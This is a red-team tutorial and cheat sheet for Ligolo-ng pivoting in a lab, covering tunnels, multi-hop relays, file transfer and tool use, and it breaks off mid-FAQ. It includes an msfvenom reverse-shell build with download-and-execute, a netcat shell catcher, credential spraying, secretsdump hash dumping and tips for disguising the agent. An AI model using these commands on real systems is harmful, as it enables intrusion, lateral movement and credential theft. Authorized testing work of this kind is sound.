




<!--
SEO
title:      Ligolo-ng Guide: Pivoting & Tunneling for Red Teams
slug:       /docs/tools/ligolo-ng
primary:    Ligolo-ng
related:    Ligolo-ng guide, Ligolo-ng tutorial, Ligolo-ng pivoting, Ligolo-ng tunneling,
            Ligolo-ng autoroute, Ligolo-ng red teaming, Ligolo-ng port forwarding,
            Ligolo-ng multi-hop pivoting, Ligolo-ng setup
internal:   /docs/tools/, /docs/redteam/, /docs/blueteam/lolbins-hunting/
external:   https://github.com/nicocha30/ligolo-ng
            https://attack.mitre.org/techniques/T1572/
            https://attack.mitre.org/techniques/T1021/
-->

> **Scope:** Authorized red team / penetration testing. Maps to MITRE ATT&CK [T1572](https://attack.mitre.org/techniques/T1572/) (Protocol Tunneling) and [T1021](https://attack.mitre.org/techniques/T1021/) (Remote Services). Covers Ligolo-ng v0.6+.

## Introduction

Ligolo-ng is a Layer 3 tunneling and pivoting tool that creates a transparent IP tunnel between a compromised host and the attacker's machine using a TUN interface on the attacker side. Routing happens at the kernel level, so tools like `nmap`, `evil-winrm`, `nxc`, `xfreerdp`, `smbclient`, `curl`, and `ssh` work over the tunnel natively — no `proxychains`, no SOCKS wrappers, no per-tool configuration.

The architecture is a **proxy-agent** model. The proxy (`ligolo-proxy`) runs on the attacker, listens for incoming TLS connections, and provides an interactive console. The agent (`agent` / `agent.exe`) is a single static binary dropped on the compromised host; it dials **out** to the proxy over TLS, which is what makes it egress-friendly. Once the tunnel is up, the attacker's kernel routes packets for target subnets into a TUN interface, Ligolo-ng carries them through the TLS channel to the agent, and the agent forwards them onto the pivot's real network interfaces.

This guide covers the operational lifecycle: installation, proxy/agent setup, TUN/route configuration, local and remote port forwarding, single and multi-hop pivoting, file transfer, reverse shell redirection, running offensive tooling over the tunnel, session/listener/route management, troubleshooting, and teardown.

**Summary**

- Ligolo-ng = Layer 3 (TUN) transparent pivoting; tools work unmodified.
- Proxy (attacker) + agent (pivot) over TLS; agent dials out.
- Covers install → tunnel → route → forward → pivot → multi-hop → tools → teardown.

---
## Lab Environment

A three-segment lab. The attacker reaches only the DMZ directly; Internal-A and Internal-B must be tunneled. Pivot1 straddles DMZ + Internal-A; Pivot2 straddles Internal-A + Internal-B.



| Host | OS | Network(s) | Role |
|------|-----|-----------|------|
| Kali | Linux | 10.10.10.5/24 | Attacker, runs `ligolo-proxy` |
| Pivot1 | Linux | 10.10.10.20/24 + 10.10.20.5/24 | First pivot, two NICs |
| Pivot2 | Windows | 10.10.20.25/24 + 10.10.30.5/24 | Second pivot, two NICs |
| Target | Linux | 10.10.30.50/24 | Deepest host, vulnerable service |


Swap these IPs for your own lab. Commands below use this scheme so you can copy-paste and adapt.


**Summary**

- Three segments: DMZ (reachable), Internal-A, Internal-B (both tunneled).
- Two pivots, each with two NICs straddling adjacent segments.

---

## Installing Ligolo-ng

Ligolo-ng ships as prebuilt static binaries — no `apt` package. Fetch releases from GitHub.

```bash
# Create a tools directory.
mkdir -p ~/tools/ligolo

# Download the proxy (Linux amd64).
wget https://github.com/nicocha30/ligolo-ng/releases/latest/download/ligolo-proxy_linux_amd64.tar.gz

# Extract and make executable.
tar -xzf ligolo-proxy_linux_amd64.tar.gz -C ~/tools/ligolo
chmod +x ~/tools/ligolo/ligolo-proxy

# Verify.
~/tools/ligolo/ligolo-proxy --help
```

`mkdir -p` creates the destination without erroring if it exists. `wget` fetches the archive (pin a tag instead of `latest` for reproducible engagements). `tar -xzf ... -C` extracts into the tools dir. `chmod +x` guarantees the execute bit.

[Screenshot: Proxy binary extracted and --help output]


Pin a release tag for reproducible engagements; `latest` can change behavior mid-engagement.


**Summary**

- Proxy is a single static binary; no dependencies.
- Pin a release tag rather than `latest`.

---

## Downloading the Agent

Grab the agent for each target OS/architecture. Serve it from the attacker over HTTP so the pivot can pull it.

```bash
# On the attacker: fetch the Linux agent.
wget https://github.com/nicocha30/ligolo-ng/releases/latest/download/ligolo-agent_linux_amd64.tar.gz
tar -xzf ligolo-agent_linux_amd64.tar.gz -C ~/tools/ligolo/

# Serve the tools directory over HTTP for the pivot to download.
cd ~/tools/ligolo && python3 -m http.server 8000
```

On the compromised Linux host (Pivot1):

```bash
wget http://10.10.10.5:8000/ligolo-agent -O /tmp/agent
chmod +x /tmp/agent
# Optional OPSEC rename.
mv /tmp/agent /tmp/.cache_update
```

`-O /tmp/agent` sets the output path. `chmod +x` marks it executable. The `mv` is cosmetic — a dot-prefixed plausible name reduces casual notice.

For a Windows pivot, grab the Windows agent on the attacker and move `agent.exe` over an existing channel (Evil-WinRM `upload`, SMB, webdav) — covered in File Transfer.

```bash
wget https://github.com/nicocha30/ligolo-ng/releases/latest/download/ligolo-agent_windows_amd64.zip
unzip ligolo-agent_windows_amd64.zip -d ~/tools/ligolo/
```


For ARM targets, grab `ligolo-agent_linux_arm64` or `ligolo-agent_linux_arm`. Check release assets for the exact filename per version.


**Summary**

- One agent binary per OS/arch; serve over HTTP or move over an existing channel.
- Rename on-target for basic OPSEC.

---

## Starting the Proxy

The proxy is a listener: it waits for agents to call in. Two certificate options.

```bash
# Self-signed (lab default). Agent must use -ignore-cert.
ligolo-proxy --selfcert

# Persistent cert (pinning, better OPSEC).
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes -subj "/CN=updates.example.com"
ligolo-proxy --certfile cert.pem --keyfile key.pem

# Custom listen port to blend with HTTPS egress.
ligolo-proxy --selfcert --laddr 0.0.0.0:443
```

`--selfcert` generates an ephemeral self-signed cert (requires `-ignore-cert` on the agent). `--certfile`/`--keyfile` use a persistent PEM cert+key — pin its fingerprint on the agent for stronger auth. `--laddr 0.0.0.0:443` sets the listen address/port (default `0.0.0.0:11601`).

Expected startup output:

``` {linenos=inline}
INFO[0000] Ligolo-ng proxy ready
INFO[0000] Listening on 0.0.0.0:11601
INFO[0000] TLS certificate fingerprint: <hex>
```

Note the **fingerprint** — the value you pin on agents.


`-ignore-cert` disables server authentication. On inspected networks, use a pinned persistent cert and drop `-ignore-cert`.


[Screenshot: Proxy started with --selfcert]


If the attacker is behind NAT and pivots must reach a public IP, run the proxy on a cloud VPS. Never run it on a pivot.


**Summary**

- `--selfcert` = lab default, needs `-ignore-cert`; `--certfile/--keyfile` = persistent + pinnable.
- Default port 11601; `--laddr 0.0.0.0:443` blends with HTTPS egress.

---

## Connecting the Agent

The agent runs on the pivot and dials out to the proxy (egress-friendly).

```bash
# Linux pivot.
./agent -connect 10.10.10.5:11601 -ignore-cert -retry

# Windows pivot.
.\agent.exe -connect 10.10.10.5:11601 -ignore-cert -retry
```

`-connect <proxy>:<port>` opens the outbound TLS connection. `-ignore-cert` skips server cert validation (required with `--selfcert`). `-retry` keeps reconnecting on failure.

On the proxy side:

``` {linenos=inline}
INFO[0012] Agent connection from 10.10.10.20:54321
ligolo-ng»
```

[Screenshot: Agent registering at the proxy]


Agent exits with a TLS error? If using `--selfcert`, you must pass `-ignore-cert`. If using a persistent cert without `-ignore-cert`, the agent validates against the OS trust store — ensure the CA is trusted on the agent host.


**Summary**

- Agent dials out; `-ignore-cert` for self-signed, `-retry` for resilience.
- A new `INFO` line + interactive prompt confirms registration.

---

## Creating the TUN Interface

An agent is connected but no traffic flows. Create a TUN (virtual NIC) on the attacker and start the tunnel.

```bash
ligolo-ng» ifconfig_create --name ligolo
```

`ifconfig_create --name ligolo` creates a TUN named `ligolo`. Use descriptive names (`int-a`, `int-b`) for multi-hop clarity.

Inspect:

```bash
ligolo-ng» ifconfig_list
```


Requires root (or `CAP_NET_ADMIN`) on Linux and Administrator on Windows. If `ifconfig_create` errors "operation not permitted," re-run the proxy with `sudo` / as Administrator.


[Screenshot: ifconfig_create and ifconfig_list]

**Summary**

- `ifconfig_create --name <x>` makes the virtual NIC; needs root/Admin.
- Descriptive names help when chaining tunnels.

---

## Starting a Tunnel

A TUN interface alone carries nothing until you bind a session to it.

```bash
ligolo-ng» tunnel_start
```

`tunnel_start` binds the active session to the TUN and begins bidirectional packet forwarding. Without it, the interface exists but is inert — a common mistake.

Verify:

```bash
ligolo-ng» tunnel_list
```

[Screenshot: tunnel_start and tunnel_list]


If `tunnel_start` reports the interface is already bound to another session, you have a stale session. `session` → select the dead one → `kill`, then re-select the live agent and start the tunnel.


**Summary**

- `tunnel_start` moves packets; never skip it after `ifconfig_create`.
- `tunnel_list` confirms the active binding.

---
## Local Port Forwarding

`listener_add` has two forms. The **local** form binds a port on the attacker and forwards to a pivot-reachable target — the inverse of SSH `-L`. Use it to reach one specific service cleanly.

```bash
ligolo-ng» listener_add --addr 0.0.0.0:8080 --to 10.10.20.25:80
```

`--addr 0.0.0.0:8080` binds on all attacker interfaces, port 8080. `--to 10.10.20.25:80` forwards to the target reachable from the pivot.

Now `curl http://127.0.0.1:8080` on the attacker hits `10.10.20.25:80` through the tunnel.




The other `listener_add` form (remote relay) binds on the agent and forwards back to the attacker — used for reverse tunneling, covered later.


**Summary**

- Local forward = `listener_add --addr <attacker bind> --to <pivot-reachable target>`.
- Best for reaching one specific service from the attacker.

---

## Accessing Internal Services

Once a subnet is routed, internal services are just IPs and ports — no per-tool config.

```bash
# Web app.
curl -sk http://10.10.20.25/
firefox http://10.10.20.25:8080/

# RDP — normal TCP socket, kernel routes it through the TUN.
xfreerdp /v:10.10.20.25 /u:svc_web /p:'Summer2025!' /dynamic-resolution

# SSH — no ProxyJump, no proxychains.
ssh user@10.10.20.25
```


For vhost/SNI services (e.g. `admin.corp.local`), map the hostname to the internal IP in `/etc/hosts`; the kernel route handles the rest.


[Screenshot: curl and RDP over the tunnel]

**Summary**

- Routed subnets behave like local LAN; browsers/RDP/SSH work unmodified.
- Map vhost names to internal IPs in `/etc/hosts`.

---

## Autoroute

`autoroute` discovers the subnets the active agent sits on and offers to create a TUN interface + kernel route for each in one prompt — the fastest way to route a whole subnet.

```bash
ligolo-ng» autoroute
```

``` {linenos=inline}
[+] Auto-route discovered network: 10.10.20.0/24
[?] Create interface and route? [Y/n]: Y
[?] Interface name [ligolo]: int-a
[+] Interface "int-a" created
[+] Route 10.10.20.0/24 added through "int-a"
[+] Tunnel started
```

The prompts let you name the interface (default `ligolo`, then `ligolo1`). Naming it `int-a` keeps multi-hop routing readable.

Verify Layer 3 reachability before heavy scans:

```bash
ping -c 2 10.10.20.25
```

[Screenshot: autoroute discovery and confirmation]

**Summary**

- `autoroute` = one command to discover subnets and route them.
- Verify with `ping` before committing to scans.

---

## Manual Route Configuration

If `autoroute` misses a subnet (e.g. a static route not on a local NIC) or you want surgical control, add routes by hand.

```bash
ligolo-ng» route_add --route 10.10.20.0/24
```

`route_add --route <cidr>` routes that CIDR through the active session's TUN — equivalent to a kernel `ip route add ... dev <tun>`, managed inside the console.

### The loopback virtual IP `240.0.0.1`

Ligolo-ng exposes `240.0.0.1`, which maps to the agent's loopback. To reach services bound to `127.0.0.1` on the pivot:

```bash
# On the attacker (Linux).
sudo ip route add 240.0.0.1/32 dev ligolo
nmap 240.0.0.1 -sV
```


`240.0.0.0/4` is reserved; Ligolo-ng uses `240.0.0.1` because it never collides with real target addressing.


**Summary**

- `route_add --route <cidr>` for manual/surgical routing.
- `240.0.0.1` maps to the agent's loopback; route it to scan localhost services.

---

## Single Pivoting

End-to-end flow to reach Internal-A through Pivot1.

```bash
# 1. On the attacker: start the proxy.
ligolo-proxy --selfcert

# 2. On Pivot1: run the agent.
./agent -connect 10.10.10.5:11601 -ignore-cert -retry

# 3. On the proxy: select the session.
ligolo-ng» session

# 4. Autoroute into Internal-A (name it int-a).
ligolo-ng» autoroute

# 5. Verify and use.
ping -c 2 10.10.20.25
nmap -sT -p 445,3389 10.10.20.25
```

`session` opens the interactive agent selector; pick Pivot1 by number. `autoroute` discovers and routes `10.10.20.0/24`. `-sT` (connect scan) is the reliable nmap mode over any Layer 3 tunnel; `-p 445,3389` checks SMB/RDP.

[Screenshot: ping and nmap through the single pivot]

You now have transparent access to every host on Internal-A reachable from Pivot1.

**Summary**

- Single pivot = proxy → agent → `session` → `autoroute` → verify → use.
- Four commands + one confirmation reach a hidden subnet.

---
## Multi-Hop Pivoting

Reach Internal-B (`10.10.30.0/24`) by chaining a second agent on Pivot2. The trick: Pivot2 cannot reach the attacker, so its agent calls back **through a listener relay on Pivot1** that forwards to the proxy.



```bash
# 1. On the proxy: bridge the callback via a relay on Pivot1.
ligolo-ng» listener_add --addr 0.0.0.0:4444 --to 127.0.0.1:11601

# 2. On the attacker: get a session on Pivot2 over the existing tunnel.
evil-winrm -i 10.10.20.25 -u svc_web -p 'Summer2025!'

# 3. Inside evil-winrm: upload and run the second agent, pointed at the Pivot1 relay.
upload agent.exe
.\agent.exe -connect 10.10.20.5:4444 -ignore-cert -retry

# 4. On the proxy: switch to the new session and autoroute Internal-B.
ligolo-ng» session        # select Pivot2
ligolo-ng» autoroute      # name it int-b

# 5. Reach the deepest host.
nmap -sT -p 22,80,445 10.10.30.50
```

`listener_add --addr 0.0.0.0:4444 --to 127.0.0.1:11601` makes Pivot1 listen on all interfaces, port 4444, forwarding to the proxy's listen port on the attacker. To Pivot2, the proxy "lives" at `10.10.20.5:4444`. The second `agent.exe` dials that relay; the call is tunneled back to your proxy and a second session registers.

Expected autoroute output for the second hop:

``` {linenos=inline}
[+] Auto-route discovered network: 10.10.30.0/24
[?] Create interface and route? [Y/n]: Y
[?] Interface name [ligolo1]: int-b
[+] Interface "int-b" created
[+] Route 10.10.30.0/24 added through "int-b"
[+] Tunnel started
```

[Screenshot: Two sessions and the int-b route]


Multi-hop adds latency at every hop and concentrates all tunnel traffic through the first pivot. If Pivot1 is monitored, the entire chain's egress is visible there. Rate-limit scans on deep hops.


**Summary**

- Multi-hop = second agent calling back through a relay on the first pivot.
- `listener_add --addr 0.0.0.0:4444 --to 127.0.0.1:11601` bridges the callback.
- `session` switches agents; `autoroute` extends reach per hop.

---

## File Transfer Through Ligolo-ng

Three options depending on what access you already have.

### HTTP relay (arbitrary internal hosts)

```bash
# Attacker: serve the payload.
python3 -m http.server 8082

# Proxy console: relay on Pivot1, bind 8081 → attacker 8082.
ligolo-ng» listener_add --addr 0.0.0.0:8081 --to 127.0.0.1:8082

# On the internal host: pull from the pivot's IP.
curl http://10.10.20.5:8081/tool.exe -o tool.exe
```

### SMB over the tunnel (if you have creds on the host)

```bash
smbclient //10.10.20.25/C$ -U 'svc_web%Summer2025!' -c 'put agent.exe \\windows\\temp\\agent.exe'
```

`-c 'put ...'` runs a single non-interactive command, uploading `agent.exe` into `C:\windows\temp`.

### Evil-WinRM upload/download (if you have a WinRM session)

```powershell
upload agent.exe
download C:\\Users\\svc_web\\Desktop\\secret.txt
```


For large files over multi-hop, prefer SMB or WinRM over HTTP — HTTP relays drop on flaky tunnels. Resume HTTP with `wget -c`.


**Summary**

- HTTP relay for arbitrary hosts; SMB/WinRM when you have creds.
- `wget -c` resumes flaky HTTP relay downloads.

---

## Reverse Shell Through Ligolo-ng

Internal hosts often cannot reach the attacker. Use two remote relays (the `listener_add` form that binds on the agent): one for file delivery, one for the shell callback. Point payloads at the **pivot's** IP, not the attacker's.

```bash
# 1. Attacker: serve the payload.
python3 -m http.server 8082

# 2. Proxy: file-delivery relay on Pivot1 (bind 8081 → attacker 8082).
ligolo-ng» listener_add --addr 0.0.0.0:8081 --to 127.0.0.1:8082

# 3. Attacker: generate a payload that calls back to Pivot1's Internal-A IP.
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.20.5 LPORT=4443 -f exe -o shell.exe
# Move shell.exe into the python http.server directory.

# 4. Proxy: shell-catch relay on Pivot1 (bind 4443 → attacker netcat 1234).
ligolo-ng» listener_add --addr 0.0.0.0:4443 --to 127.0.0.1:1234

# 5. Attacker: start the netcat listener.
rlwrap nc -lvnp 1234

# 6. On Pivot2: download and execute.
iwr -uri http://10.10.20.5:8081/shell.exe -outfile shell.exe
.\shell.exe
```

`-p windows/shell_reverse_tcp` is the payload; `LHOST=10.10.20.5` is the pivot's IP (Pivot2 can reach it); `LPORT=4443` is the port Pivot2 connects to. The file relay serves `shell.exe`; the shell relay forwards `4443` back to the attacker's netcat on `1234`. `rlwrap nc -lvnp 1234` listens (`-l`), verbose (`-v`), no DNS (`-n`), port 1234 (`-p`), with readline line editing.



[Screenshot: Netcat catching the shell via the relay]

**Summary**

- Pair an HTTP file relay with a shell-catch relay to operate across isolation.
- Point `LHOST` at the pivot's IP; the relay forwards the callback back to you.

---

## Running Tools (Nmap, NetExec, Evil-WinRM, RDP, SSH)

Routing is kernel-level, so every tool that opens a TCP socket works natively.

### Nmap

```bash
# Reliable posture: connect scan, skip host discovery, normal timing.
sudo nmap -sT -Pn --top-ports 1000 -T3 10.10.30.50

# Full sweep, gentle timing for multi-hop.
sudo nmap -sT -Pn -p- -T2 10.10.30.50
```

`-sT` (connect scan) uses the kernel socket API — reliable over any Layer 3 tunnel. `-Pn` skips ICMP host discovery (unreliable across tunnels). `--top-ports 1000` for a fast first pass. `-T3` normal; drop to `-T2` on multi-hop to avoid dropped packets. SYN scans (`-sS`) work (the TUN accepts raw IP and the agent re-originates), but RST behavior depends on the pivot's kernel — prefer `-sT` for reliability.


Avoid `-T4`/`-T5` over multi-hop tunnels — aggressive timing causes packet loss and false "closed" results. Treat deep pivots like a slow WAN.


### NetExec (formerly CrackMapExec)

```bash
# Subnet-wide SMB enumeration — one command covers a segment you just routed.
nxc smb 10.10.20.0/24

# Credential spray across the routed subnet.
nxc smb 10.10.20.0/24 -u svc_web -p 'Summer2025!'

# WinRM enumeration + command execution.
nxc winrm 10.10.20.0/24 -u svc_web -p 'Summer2025!' -x "whoami"
```

`nxc smb <cidr>` enumerates SMB across the whole routed subnet — a Ligolo-ng superpower. `winrm ... -x "whoami"` runs a command on each host that accepts the creds.

### Evil-WinRM

```bash
evil-winrm -i 10.10.20.25 -u svc_web -p 'Summer2025!'
```

Inside the session, upload the next agent (for multi-hop) or tooling:

```powershell
upload agent.exe
upload SharpHound.exe
```

### SMB (smbclient / Impacket)

```bash
smbclient -L //10.10.20.25 -U 'svc_web%Summer2025!'
impacket-secretsdump svc_web:'Summer2025!'@10.10.20.10
```

`-L` lists shares. `secretsdump` dumps SAM/NTDS — works because it is RPC over TCP.

### RDP

```bash
xfreerdp /v:10.10.20.25 /u:svc_web /p:'Summer2025!' /dynamic-resolution
```

### SSH

```bash
ssh user@10.10.20.25
scp file.txt user@10.10.20.25:/tmp/
```

[Screenshot: nxc spray and evil-winrm over the tunnel]

**Summary**

- All tools work natively; no proxy config. Subnet-wide `nxc` sweeps are a superpower.
- nmap: `-sT` + `-Pn` + `-T2`/`-T3` is the reliable posture.

---
## Session Management

The proxy console tracks one **session** per connected agent. Most commands act on the *active* session, so switch with `session` first.

```bash
ligolo-ng» session          # interactive selector; pick an agent by number
ligolo-ng» session_list     # list all sessions
ligolo-ng» kill             # terminate the active agent session
```

`session` opens the selector and switches context. `session_list` shows all connected agents. `kill` terminates the active session cleanly.

[Screenshot: session selector with two agents]

**Summary**

- One session per agent; switch with `session` before operating.
- `kill` terminates the active session.

---

## Listener Management

Listeners are the relays you create with `listener_add`. Audit and tear them down to avoid leaving ports open on pivots.

```bash
ligolo-ng» listener_list               # enumerate all relays
ligolo-ng» listener_stop --id <id>        # stop one relay by ID
```

`listener_list` shows each relay's bind address, target, and ID. `listener_stop --id <id>` stops one relay, closing its listening port on the pivot.


Every relay is a listening port on the pivot — a host-side artifact. `listener_list` and `ss -lntp`/`netstat -anob` should agree before you leave.


**Summary**

- `listener_list`/`listener_stop --id <id>` audit and remove relays.
- Every relay leaves a listening port; tear down when done.

---

## Route Management

Routes map target CIDRs to TUN interfaces. Audit and remove them at teardown.

```bash
ligolo-ng» route_list                   # list routes
ligolo-ng» route_del --route <cidr>      # remove a route
ligolo-ng» ifconfig_list                 # list TUN interfaces
ligolo-ng» ifdel --name <iface>         # remove a TUN interface
ligolo-ng» tunnel_stop                   # stop forwarding on the active session
```

`route_list` shows CIDR → interface mappings. `route_del --route <cidr>` removes a kernel route. `ifconfig_list` shows TUN interfaces; `ifdel --name <iface>` removes one. `tunnel_stop` stops packet forwarding on the active session.

**Summary**

- `route_list`/`route_del`, `ifconfig_list`/`ifdel`, `tunnel_stop` manage the data plane.
- Remove routes and interfaces at teardown.

---

## Troubleshooting

Most problems fall into five buckets: certificates, routes, TUN/privileges, sessions, performance.

| Symptom | Likely cause | Fix |
|---------|-------------|-----|
| Agent exits with TLS/cert error | Self-signed cert without `-ignore-cert` | Add `-ignore-cert`, or use `--certfile`/pinning |
| `ifconfig_create` → "operation not permitted" | Proxy not running as root/Admin | Re-run proxy with `sudo` (Linux) or as Administrator (Windows) |
| `ping` to routed host fails | No route through TUN, or tunnel not started | `route_add --route <cidr>`; run `tunnel_start` |
| `nmap` shows all ports closed | Host discovery failing over tunnel | Use `-Pn`; use `-sT` not `-sS` for reliability |
| Agent not visible in `session` list | Agent cannot reach proxy (firewall/egress) | Test `nc -vz <proxy-ip> <port>` from pivot; check egress |
| High latency / dropped packets | Aggressive timing on multi-hop | Lower nmap to `-T2`; reduce `--max-parallelism` |
| `listener_add` "address already in use" | Port bound by another process | Change `--addr` port or stop the conflicting listener |
| Sessions disappear under load | Tunnel buffer exhaustion on slow link | Throttle scan rate; avoid `-T4`/`-T5` |
| TUN exists but no traffic | `tunnel_start` not run | Run `tunnel_start` after `ifconfig_create` |
| Duplicate/ambiguous routes | Two tunnels route the same CIDR | `route_del` the unwanted one; use distinct CIDRs or metrics |

### Detailed fixes

**Agent TLS error.** With `--selfcert`, you must pass `-ignore-cert`. With a persistent cert and no `-ignore-cert`, the agent validates against the OS trust store — ensure the CA is trusted on the agent host.

**No route after autoroute.** Run `route_list` in the console and `ip route` on the attacker. If the CIDR is missing, `route_add --route <cidr>` manually. If it points at the wrong interface, delete and re-add.

**TUN creation fails on Windows.** Run the proxy as Administrator. Windows TUN needs the WinTUN driver (bundled with recent releases); if `wintun.dll` is missing, place it beside `ligolo-proxy.exe`.

**Pings work but TCP scans hang.** ICMP traverses but TCP setup drops — usually timing on a lossy tunnel. Lower to `-T2`, reduce `--max-parallelism`, retry.


`tunnel_start` reports the interface is already bound? Stale session. `session` → select the dead one → `kill`, then re-select the live agent and start the tunnel.


**Summary**

- Five failure buckets: certs, routes, TUN/privs, sessions, performance.
- `route_list` + `ip route` diagnose 80% of routing issues.

---

## Common Mistakes

- **Missing `-ignore-cert` with `--selfcert`.** Agent exits with a TLS error. Fix: add `-ignore-cert` (or use a persistent cert).
- **Proxy not as root.** `ifconfig_create` fails "operation not permitted." Fix: `sudo ligolo-proxy ...`; as Administrator on Windows.
- **`ifconfig_create` without `tunnel_start`.** Interface exists, no traffic. Fix: run `tunnel_start`.
- **Wrong IP in `-connect`.** Pointing the agent at an unroutable attacker IP. Fix: use the IP the pivot can actually reach (DMZ IP or public VPS IP).
- **No `session` before operating.** Commands act on the active session. Fix: `session` first.
- **`-sS` + `-T5` over multi-hop.** SYN + aggressive timing → false "closed." Fix: `-sT -Pn -T2`.
- **Leaving relays up.** Every relay is a listening port. Fix: `listener_stop` at teardown.
- **Pointing `LHOST` at the attacker for reverse shells.** If the internal host cannot route to you, the shell never connects. Fix: `LHOST` = pivot IP + relay.

**Summary**

- Top traps: missing `-ignore-cert`, proxy not root, missing `tunnel_start`.
- Always `session` first; always tear down relays; point shells at the pivot.

---

## Best Practices

### Setup

- Pin a release tag; `latest` can change behavior mid-engagement.
- Use a persistent cert and pin it; avoid `-ignore-cert` on inspected networks.
- Run the proxy on infrastructure you control, never on a pivot.
- Name interfaces descriptively (`int-a`, `int-b`) for multi-hop clarity.

### Operations

- Verify with `ping`/`curl` before heavy scans.
- Throttle scans on deep hops (`-T2`, limited parallelism); treat multi-hop like a slow WAN.
- Use `-Pn` with nmap over tunnels; prefer `-sT`.
- Blend the port: `--laddr 0.0.0.0:443` beats `11601`.
- Rename the agent on-target; avoid `agent.exe` in a temp dir.

### Teardown sequence

```bash
ligolo-ng» tunnel_stop
ligolo-ng» listener_list
ligolo-ng» listener_stop --id <id>   # repeat for each
ligolo-ng» route_list
ligolo-ng» route_del --route <cidr>
ligolo-ng» ifconfig_list
ligolo-ng» ifdel --name <iface>
ligolo-ng» kill
```

`tunnel_stop` stops forwarding. `listener_list`/`listener_stop` remove relays. `route_list`/`route_del` remove routes. `ifconfig_list`/`ifdel` remove TUN interfaces. `kill` terminates the agent session. Audit with `listener_list`/`route_list`/`ifconfig_list`/`tunnel_list` before leaving to confirm a clean state.

[Screenshot: Clean teardown output]

**Summary**

- Pin versions/certs; run proxy on your infra; blend ports.
- Throttle scans; prefer `-sT`/`-Pn` over tunnels.
- Tear down in order: tunnel → listeners → routes → interfaces → session.

---

## Conclusion

Ligolo-ng moves pivoting from the application layer (SOCKS, proxychains, per-tool config) to Layer 3 (a kernel-routed TUN interface), so `nmap`, `evil-winrm`, `nxc`, `xfreerdp`, `smbclient`, `curl`, and `ssh` work over a tunnel with zero modification. `autoroute` collapses a whole subnet's manual routing into one confirmation prompt; listener relays give reverse-tunnel redirection for file delivery and shell catching across isolated segments; and the multi-hop pattern — a second agent calling back through a relay on the first — extends reach segment by segment with no extra infrastructure. The cost is OPSEC: every relay is a listening port, every agent is an unknown binary, and the channel rides a long-lived outbound TLS connection a tuned SIEM can spot. The disciplined operator balances reach against footprint — pinning certs, blending ports, throttling deep-hop scans, and tearing down relays, routes, and interfaces the moment they stop earning their keep.

---

## Cheat Sheet

### Proxy (attacker)

```bash
ligolo-proxy --selfcert                              # self-signed, default :11601
ligolo-proxy --certfile cert.pem --keyfile key.pem   # persistent cert
ligolo-proxy --selfcert --laddr 0.0.0.0:443          # blend with HTTPS egress
```

### Agent (pivot)

```bash
./agent -connect <proxy>:11601 -ignore-cert -retry    # Linux
.\agent.exe -connect <proxy>:11601 -ignore-cert -retry # Windows
```

### Proxy console: core

```bash
session                                   # select an agent
ifconfig_create --name <iface>             # create TUN
tunnel_start                               # start forwarding
autoroute                                  # discover + route subnets
route_add --route <cidr>                  # manual route
listener_add --addr <bind> --to <target>   # local/remote relay
```

### Proxy console: management

```bash
session_list                               # list agents
kill                                       # terminate active session
listener_list                              # list relays
listener_stop --id <id>                    # stop a relay
route_list                                 # list routes
route_del --route <cidr>                  # remove a route
ifconfig_list                              # list TUN interfaces
ifdel --name <iface>                     # remove a TUN
tunnel_stop                                # stop forwarding
```

### Teardown order

`tunnel_stop` → `listener_stop` → `route_del` → `ifdel` → `kill`

### Reliable nmap over the tunnel

```bash
sudo nmap -sT -Pn --top-ports 1000 -T3 <target>   # first pass
sudo nmap -sT -Pn -p- -T2 <target>              # full sweep, multi-hop
```

### Loopback trick

```bash
sudo ip route add 240.0.0.1/32 dev ligolo   # map to agent's 127.0.0.1
nmap 240.0.0.1 -sV
```

### Multi-hop callback bridge

```bash
ligolo-ng» listener_add --addr 0.0.0.0:4444 --to 127.0.0.1:11601
# second agent: -connect <pivot1-ip>:4444
```

---

## FAQ

### What is Ligolo-ng?
A Layer 3 tunneling/pivoting tool that creates a transparent IP tunnel between a compromised host and the attacker using a TUN interface, so standard tools work over the tunnel without SOCKS or proxychains.

### How does Ligolo-ng routing work?
The proxy creates a TUN interface on the attacker; you add kernel routes for target CIDRs through it. The kernel sends matching packets into the TUN; Ligolo-ng carries them over TLS to the agent, which re-originates them from the pivot.

### Does the agent require root?
No. The agent does not create a TUN — it only forwards packets onto the pivot's real interfaces. Creating the TUN on the attacker requires root/Admin.

### What does `autoroute` do?
It enumerates the subnets the connected agent sits on and offers to create a TUN interface and a kernel route for each in one interactive prompt.

### Can nmap run through Ligolo-ng?
Yes. Use `-sT` (connect scan) for reliability and `-Pn` to skip unreliable ICMP host discovery. SYN scans (`-sS`) work but can be flaky; lower timing to `-T2` on multi-hop paths.

### How does multi-hop pivoting work in Ligolo-ng?
